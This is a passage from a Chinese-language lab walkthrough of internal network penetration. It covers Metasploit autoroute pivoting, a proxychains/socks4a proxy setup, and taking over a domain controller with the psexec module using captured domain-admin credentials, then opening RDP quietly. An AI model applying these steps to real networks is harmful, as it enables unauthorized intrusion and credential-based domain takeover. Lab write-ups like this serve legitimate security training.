 

远程连接一下win7，在win7开一个远程桌面到2003

```
rdesktop 192.168.248.128
rdesktop 192.168.52.141
```



### 2、添加代理进入内网

发现目标后，为方便后续工具的使用，需要先搭建代理，将web服务器搭建成socks5代理服务器，内网渗透里先把网调通是最关键的，所以下面会多讲点代理的问题；

参考：https://www.freesion.com/article/84001006807/

拿到第一台win7

```
run get_local_subnets #查看路由段
run autoroute -s 192.168.52.0/24 #添加路由至本地
run autoroute -p #打印当前路由信息
```

编辑本地的代理服务：

```
vim /etc/proxychains.conf
```

```
socks4 192.168.248.129 1080
```

退出后设置socks代理

```
use auxiliary/server/socks4a
set SRVHOST 192.168.248.129
run
jobs
```





## 拿下域控

定位到域控制器的`ip`为`192.168.52.138`

还是先利用`smb`扫描系统版本

![38.jpg](https://antlersmaskdown.oss-cn-hangzhou.aliyuncs.com/3654113180.jpg)

因为之前抓到了域管理的账号密码所以直接使用`exploit/windows/smb/psexec`模块拿下域控，且是管理员权限

![39.jpg](https://antlersmaskdown.oss-cn-hangzhou.aliyuncs.com/2933368066.jpg)

为了方便还是把他远程桌面顺带一起打开吧，关闭防火墙或者只开放`3389`(推荐，动静小)，通过代理连接
